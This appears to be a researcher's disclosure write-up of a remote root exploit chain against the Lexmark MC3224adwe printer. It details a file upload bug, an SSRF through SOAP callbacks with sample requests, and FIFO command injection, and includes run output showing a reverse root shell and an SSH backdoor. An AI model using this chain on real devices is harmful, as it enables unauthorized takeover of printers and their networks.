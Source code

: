 # Lexmark MC3224adwe RCE exploit

## Introduction

This document details a vulnerability in the Lexmark MC3224adwe printer.
This vulnerability was uncovered using static code analysis and verified to be working on
the latest available firmware for this device (version **CXLBL.081.225** at the time of writing).

## Vulnerabilities

The full exploit chains a couple of seemingly harmless/isolated functionalities
to eventually fully compromise the device.

### File upload primitive

By sending a HTTP POST request to the URI endpoint `/webglue/uploadfile/ImportFaxLogo`
we can upload arbitrary file data, which will always be written to the file `/var/fs/shared/faxdata/logo`
on the filesystem.

### SSRF primitive

There is a daemon listening on TCP port `65002` that relates to various SOAP webservices.
Amongst these SOAP webservices is one that is responsible for handling a web printing
standard defined by Microsoft known as WS-Print (https://learn.microsoft.com/en-us/windows-hardware/drivers/print/ws-print-v1-1).

By carefully crafting a series of HTTP POST requests with the correct SOAP bodies
we can convince the server to make a HTTP callback to an endpoint of our choosing.

The SOAP requests make use of the following XML schema namespaces:

- soap: "http://www.w3.org/2003/05/soap-envelope"
- wsa: "http://schemas.xmlsoap.org/ws/2004/08/addressing"
- wse: "http://schemas.xmlsoap.org/ws/2004/08/eventing"
- ew: "http://www.example.com/warnings"
- pri: "http://schemas.microsoft.com/windows/2006/08/wdp/print"

The SOAP envelope bodies that need to be sent look (abbreviated, consult exploit code for full listing) like this:

#### SOAP Request 1

```xml
<!-- abbreviated SOAP request -->
<soap:Body>
    <wse:Subscribe>
      <wse:EndTo>
        <wsa:Address>http://127.0.0.1:12039</wsa:Address>
        <wsa:ReferenceProperties>
          <ew:MySubscription>1234</ew:MySubscription>
        </wsa:ReferenceProperties>
        <wsa:ReferenceParameters>
          <wse:Identifier>IDID-1</wse:Identifier>
        </wsa:ReferenceParameters>
      </wse:EndTo>
      <wse:Delivery>
        <wse:NotifyTo>
          <wsa:Address>http://callback_address_goes_here</wsa:Address>
          <wsa:ReferenceParameters>
            <wse:Identifier>identifier</wse:Identifier>
          </wsa:ReferenceParameters>
        </wse:NotifyTo>
      </wse:Delivery>
      <wse:Filter>http://schemas.microsoft.com/windows/2006/08/wdp/print/JobStatusEvent</wse:Filter>
    </wse:Subscribe>
</soap:Body>
<!-- abbreviated -->
```

#### SOAP Request 2

```xml
<!-- abbreviated SOAP request -->
  <soap:Body>
    <pri:CreatePrintJobRequest>
      <pri:PrintTicket>
        <pri:JobDescription>
          <pri:JobName>JOBNAME</pri:JobName>
          <pri:JobOriginatingUserName>user</pri:JobOriginatingUserName>
        </pri:JobDescription>
      </pri:PrintTicket>
    </pri:CreatePrintJobRequest>
  </soap:Body>
<!-- abbreviated -->
```

When the callbacks are being made the software does not do any sanity-checking
on the destination of the callbacks, thus it is possible to send callbacks
to arbitrary hosts, including the printer itself. This is a SSRF (Server-Side-Request-Forgery)
vulnerability.

### File copy primitive

The printer runs a debugging daemon on TCP port `12039` that relates to debugging
of fax functionality. This daemon is not reachible from the outside world normally.
The daemon is implemented as part of the `/usr/bin/faxserviceapp` binary.

The daemon can be interfaced with using a simple line based protocol. Most of the
commands aren't super interesting to us, but one stands out: copy file. it can be
used to copy file data from a source path to a destination path. This is all executed
as the user running the `faxserviceapp` daemon (user `fax).

### Privilege escalation

There is a process called `/usr/bin/auto-fwdebugd` that is started as a systemd
service. If we look at the systemd service definitions files for this process we
see:

```
[Unit]
Description=Automatic fwdebug pipe

[Socket]
ListenFIFO=/run/svcerr/auto_fwdebug_pipe
SocketMode=0666

[Install]
WantedBy=sockets.target
```

It registers a named FIFO called `/run/svcerr/auto_fwdebug_pipe`. The `main()`
function of `auto-fwdebugd` essentially polls this FIFO for commands. What is
interesting to note here is that the `SocketMode` specified in the systemd service
file is 0666, meaning any user can write to this FIFO file. When input is read()
from this FIFO it will scan for a semicolon `;` character and format a command
to be invoked based on whatever comes behind it. This input is not sanitized
and leads to a command injection vulnerability.

## Exploitation

By chaining all of the above primitives, a full compromise and privilege escalation
of the system is possible:

- We use the arbitrary file upload bug to write a privilege escalation payload to the filesystem
- We send two HTTP requests with the correct SOAP bodies to TCP port 65002
- This triggers an SSRF condition that will send a HTTP request to the internal TCP port `12039`
- Because the daemon on TCP port `12039` uses a line based protocol, the HTTP request stanza
  is ignored until it reaches our controlled input that was being smuggled as part of the
  path in our callback URI.
- Multiple 'copy file' commands are being executed by the SSRF trigger which preserve
  our LPE payload and trigger the execution of commands by writing malicious
  input to `/run/svcerr/auto_fwdebug_pipe`
- The `auto-fwdebugd` daemon picks up this malicious input and ends up executing an arbitrary
  command (that is limited in length, but sufficiently long enough to stage to a bigger payload)
- Code execution as the `root` user is achieved.

The full runtime of the exploit is slightly long due to the fact a lot of processing
is done by `auto-fwdebugd` until the execution of our payload is reached. In my testing
environment it took ~100 seconds on average to reach this condition.

Please refer to the exploit code for the full details of all steps involved.

## Exploit Output

A typical run of the exploit should look like this. After exploitation is finished
a rootshell is spawned.

```
$ python exploit.py 192.168.2.18 192.168.2.14

      $$$ Lexmark MC3224adwe RCE Exploit $$$
          -- by blasty <peter@haxx.in> --

<11:25:10> [i] HACK: attacking 192.168.2.28, sending shells to 192.168.2.14
<11:25:10> [~] UPLOAD: upload lpe polyglot
<11:25:11> [~] COPY: copy polyglot to /tmp and pipe
<11:25:11> [~] SSRF: trigger part 1
<11:25:11> [~] SSRF: trigger part 2
<11:25:16> [~] WAIT: patience you must have, my young padawan
<11:25:25> [i] CLOCK: 15 seconds elapsed..
<11:25:40> [i] CLOCK: 30 seconds elapsed..
<11:25:55> [i] CLOCK: 45 seconds elapsed..
<11:26:10> [i] CLOCK: 60 seconds elapsed..
<11:26:25> [i] CLOCK: 75 seconds elapsed..
<11:26:40> [i] CLOCK: 90 seconds elapsed..
<11:26:55> [i] CLOCK: 105 seconds elapsed..
<11:27:07> [!] ROOT-SHELL: YES! Connection from: ('192.168.2.28', 40924)
<11:27:07> [!] ROOT-SHELL: id output: uid=0(root) gid=0(root)

<11:27:07> [i] HACK: pwning took 116 seconds!
<11:27:07> [!] HACK: we have 184 seconds left, phew!
<11:27:07> [?] HACK: lets see if our ssh daemon is alive..
<11:27:07> [*] HACK: (0) attempting to connect to ssh..
<11:27:08> [*] HACK: (1) attempting to connect to ssh..
<11:27:08> [!] HACK: YES! ssh banner: SSH-2.0-OpenSSH_8.2

<11:27:08> [!] HACK: copying flair to target..
Warning: Permanently added '192.168.2.28' (ED25519) to the list of known hosts.
software                                                                                                                                100%   73KB 542.0KB/s   00:00
<11:27:08> [!] HACK: spawning flair and interactive ssh shell..
Warning: Permanently added '192.168.2.28' (ED25519) to the list of known hosts.
<11:27:10> [i] CLOCK: 120 seconds elapsed..

root@ET788C77F816DD:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ET788C77F816DD:~# uname -a
Linux ET788C77F816DD 5.4.90-yocto-standard #1 SMP PREEMPT Tue Nov 1 10:28:19 UTC 2022 armv7l GNU/Linux
root@ET788C77F816DD:~# head /proc/cpuinfo
processor	: 0
model name	: ARMv7 Processor rev 4 (v7l)
BogoMIPS	: 50.00
Features	: half thumb fastmult vfp edsp neon vfpv3 tls vfpv4 idiva idivt vfpd32 lpae evtstrm aes pmull sha1 sha2 crc32
CPU implementer	: 0x41
CPU architecture: 7
CPU variant	: 0x0
```

## Contact Details

- Peter "blasty" Geissler
- E-mail: peter@haxx.in
